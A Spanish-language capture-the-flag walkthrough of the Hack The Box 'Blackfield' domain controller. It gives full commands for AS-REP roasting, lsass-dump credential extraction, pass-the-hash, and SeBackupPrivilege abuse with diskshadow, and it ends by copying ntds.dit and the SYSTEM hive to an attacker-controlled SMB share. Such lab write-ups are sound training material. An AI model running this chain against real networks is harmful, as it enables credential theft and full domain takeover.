

## Spoiler
---

Esta sección está diseñada por si no quieres leer el writeupp completo y necesitas algunas pistas

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Usuarios por defecto, siempre son un defecto para el sistema si los habilitas :c
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  Bloodhound, no hay nada más que decir
</label>

Hint 3:
<input class="spoiler-toggle" type="checkbox" id="step-3">
<label class="spoiler-text" for="step-3">
  Carpetas compartidas con cosas interesantes, revisarlas no hará daño, solo tomará un sas de tiempo
</label>

Hint 4:
<input class="spoiler-toggle" type="checkbox" id="step-4">
<label class="spoiler-text" for="step-4">
  Si al final no funciona lo común entonces busca una manera alternativa de hacerlo, san google mi pastor
</label>


## Writeupp
---

### Reconocimiento

Comenzamos realizando es el escaneo de puertos y servicios, para ellos nos apoyaremos de nmap por medio del comando: 

```sh
nmap -sS -Pn -n --min-rate 5000 -p- 10.129.229.17 -sV
```



En el resultado del escaneo podemos ver diferentes puertos muy típicos en máquins windows (especialmente las de HTB), al no tener tal vez un puerto 21 (FTP) o una web (80 - 443) abierto entonces procederemos a través del protocolo 445 enumerando cosas que nos pueden ser útiles.

Algo adicional a destacar del escaneo es el dominoi que nos arroja *blackfield.local*, esto lo pondremos en nuestro archivo de configuración `/etc/hosts` en conjunto con la ip del servidor para que nuestra máquina sepa a que ip nos referimos al momento de querer interactuar con el dominio *vlackfield.local*

```sh
❯ cat /etc/hosts

(...)
# hackthebox
10.129.229.17 blackfield.local
```

Ahora procederemos a verificar si se puede tener interacción con sesiones nulas

```sh
❯ nxc smb blackfield.local -u '' -p ''
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\:
```

Al parecer, todo bien..., nos dejará enumerar usuarios ?

```sh
❯ nxc smb blackfield.local -u '' -p '' --users
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\: 
                                                                                                                                                                                   
```

No parecer ser el caso, sin embargo, hay otra forma en cómo poder descubrir usuarios, a través de su rid el cual se hace con el parámetro `--rid-brute`, probemos esa teoría

> [!note]
> El rid es un identificador único que se le asigna a un objeto (como un usuario o un grupo por ejemplo), para el AD es como una especie de "alias" y se usa para hacer referencia a dicho objeto. 
>
> Tanto el `--users` como el `--rid-brute` (y sus variantes) pueden dar como resultado información relevante del AD como usuarios y grupos

```sh
❯ nxc smb blackfield.local -u '' -p '' --rid-brute
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\: 
SMB         10.129.229.17   445    DC01             [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
```

Esta vez es diferente el resultado, tenemos un **Access Denied**, lo cual nos impide seguir con esa enumeración ya que no disponemos de un usuario válido verdad ?

Usualmente se tienen 2 formas de poder interactuar con esta clase de cosas, una es con sesiones nulas, la otra es usando el usuario *guest* (sin contraseña, claro), usualmente el usuario *guest* está deshabilitado, pero no deja de ser una posible mala configuración que dejaron en esa máquina. Pongámoslo a prueba !!

```sh
nxc smb blackfield.local -u 'guest' -p '' --rid-brute
```



Notamos que esta vez nos arroja resultados, son muchos usuarios, antes de intentar un password spraying intentaremos verificar si alguno de esos es vulnerable a un ataque de ASREP-ROAST.

> [!nota]
> El ataque de ASREP-ROAST permite capturar el hash de la contraseña del usuario cuando este dispone de la característica `Do not require Kerberos preauthentication` habilitada en el AD

Para esto, primero debemos obtener todos los usuarios del output resultante del comando anterior así que lo trataremos de la siguiente manera:

1. Colocar toda la salida del comando en un archivo llamado output

```sh
nxc smb blackfield.local -u 'guest' -p '' --rid-brute > output
```

2. Debemos obtener todas las líneas de los usuarios, para esto realizaremos un filtro con `grep` para obtener las líneas en donde se tenga la palabra **SidTypeUSer**

```sh
cat output | grep "SidTypeUser"
```



3. Ahora tenemos que obtener solo los usernames, para ello aplicaremos los siguientes filtros y lo guardaremos en un archivo llamado *users*

```sh
cat output | grep "SidTypeUser" | tr -s ' ' | cut -d ' ' -f 6 | cut -d '\' -f 2 > users
```

Ahora utilizaremos el archivo *users* para poder realizar el ataque de ASREP-ROAST, esto se logra gracias a la herramienta `impacket-GetNPUsers`

```sh
impacket-GetNPUsers -no-pass -usersfile users blackfield.local/
```



Encontramos que el usuario *support* es suceptible a este ataque razón por la cual podemos obtener el hash de su contraseña, intentaremos descifrarla utilizando el dicionario *rockyou.txt*, para esto guardaremos todo el contenido del hash en un archivo llamado *hash* y utilizaremos la herramienta `john` para intentar obtener dicha contraseña

```sh
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
(...)
Session completed.
```

Con esto obtenemos la contraseña: `#00^BlackKnight`

Verificaremos la credencial obtenida

```sh
❯ nxc smb blackfield.local -u support -p '#00^BlackKnight'
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight
```

Vemos que la credencial es válida, no tiene altos privilegios (diría *pwned* en la herramienta), tampoco permite ingresar por WinRM entonces ejecutaremos `bloodhound` y veremos que permisos tiene este usuario



Dentro de bloodhound notamos que tiene el permiso de `ForceChangePassword` hacia el usuario *audit2020*, pero el usuario *audit2020* no dispone de algún permiso sobre otro objeto, esto probablemente podría ser un rabbit hole, pero lo realizaremos de igual manera, no siempre los permisos en los objetos nos dicen el camino, siempre hay otras cosas por verificar...

```sh
net rpc password "audit2020" "Password123." -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "10.129.229.17"
```

Ahora verificaremos el cambio

```sh
❯ nxc smb blackfield.local -u audit2020 -p 'Password123.'
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:Password123.
```

Notamos que la contraseña fué cambiada con éxito, pero ahora qué ?

Verificaremos si se disponen de recursos compartidos por SMB

```sh
❯ nxc smb blackfield.local -u audit2020 -p 'Password123.' --shares
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:Password123. 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share
```

Notamos varias carpetas, entre ellas una llamada *forensic*, el nombre parece algo llamativo, para esto navegaremos en esa carpeta usando la herramienta `smbclientng`

```sh
smbclientng -u 'audit2020' -p 'Password123.' -H blackfield.local
```



Ese recurso compartido mantiene cierta estructura entre sus carpetas

- La carpeta *command_output* parece ser solo eso, salidas de comandos hechas en la misma máquina
- La carpeta *memory_analysis* contiene archivos *.zip* los cuales parecen obtener información relevante 
- La carpeta *tools* es solo eso, una carpeta con herramientas sysinternals, volatility, etc.

La carpeta a la cual mantendremos foco seá la de *memory_analysis*



Entre los nombres de los archivos copmprimidos vemos uno en particular *lsass.zip*, específicamente este proceso es el que podría guardar los hashes NTLM de las cuentas de windows logueadas, de ser un dumpeo de ese proceso entonces podriamos aprovecharnos de eso y obtener esos hashes, así que lo descargaremos.



Ejectivamente, al descomprimirlo nos arroja un archivo *.DMP* el cual parece ser el dump de memoria de ese proceso, para ello se utilizará la herramienta `pypykatz`

```sh
pypykatz lsa minidump lsass.DMP
```



En la salidaa de la herramienta podemos obtener el hash NT del usuario *svc_backup*, probaremos si dicha credencial es válida

```sh
❯ nxc smb blackfield.local -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

Antes de verificar los permisos de ese usuario sobre objetos del AD en bloodhound probaremos si este usuario dispone de acceso por WinRM

```sh
❯ nxc winrm blackfield.local -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local) 
WINRM       10.129.229.17   5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

Perfecto, esto nos confirma que podemos tener acceso al sistema como el usuario *svc_backup* por lo que ingresaremos utilizando la herramienta `evil-winrm`

```sh
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i blackfield.local
```



Una vez dentro, enumeraremos los permisos de este usuario sobre el sistema 

```sh
whoami /all
```



Vemos que tenemos los permisos `SeBackupPrivilege` y `SeRestorePrivilege`, por lo que en teoría podremos hacer un backup de cualquier cosa que se encuentre dentro del sistema, lo más común que se suele hacer en estos casos es realizar un backup  de los registros del sistema *HKLM\SAM* y *HKLM\SYSTEM*, luego pasarla a nuestra máquina y obtener los hashes de las cuentas locales, pero eso en un principio no me dio tantos resultados, por lo que en esta ocasión se utilizará otra forma en la cual se pueda obtener algo aún más importante, el archivo NTDS.DIT.

Para hacer esto nos apoyaremos del siguiente artículo https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#5c26

1. Crear un archivo cuyo contenido sea el siguiente:

```plaintext
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

Si copiamos y pegamos en un archivo común en un linux tendremos problemas de compatibilidad al momento de procesarlo en windows, esto es debido a los saltos de línea, en linux son "\n" mientras que en windows es "\n\r", pero eso se soluciona colocando la línea de comando `unix2dos <nombre_archivo>`

2. Pasarlo a la máquina víctima

```powershell
wget http://10.10.15.231:8000/instructions.txt -O instructions.txt
```



3. Ejecutar el comando diskshadow pasándole como argumento el archivo con instrucciones

```powershell
diskshadow.exe /s instructions.txt
```



Esto crea un backup del sistema el cual procederemos a buscar el archivo *ntds.dit* el cual se encuentra en la ruta *E:\windows\ntds\ntds.dit*



4. Lo copiamos dentro de una ruta temporal de la máquina víctima 

Vamos a tener que crear una carpeta temporal o en su defecto usar la carpeta del usuario svc_backup

```powershell
robocopy /b E:\windows\ntds . ntds.dit
```





5. Realizamos una copia del registro SYSTEM y lo guardamos en el sistema

```powershell
reg save HKLM\SYSTEM SYSTEM
```

6. Nos pasamos los archivos SYSTEM y ntds.dit por SMB hacia nuestra máquina

```sh
# Atacante
impacket-smbserver fluwhen $(pwd) -smb2support

# Víctima
cp ntds.dit \\10.10.15.231\fluwhen\
cp SYSTEM \\10.10.15.231\fluwhen\
```

7. Utilizamos `impacket-secretsdump` para obtener los hashes NTLM de los usuarios de dominio :)

```sh
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```



Con esto obtenemos el hash ntlm del administrador del dominio, así podemos loguearnos sin preocupaciones hacia la máquina víctiam y obtener las flags que necesitamos.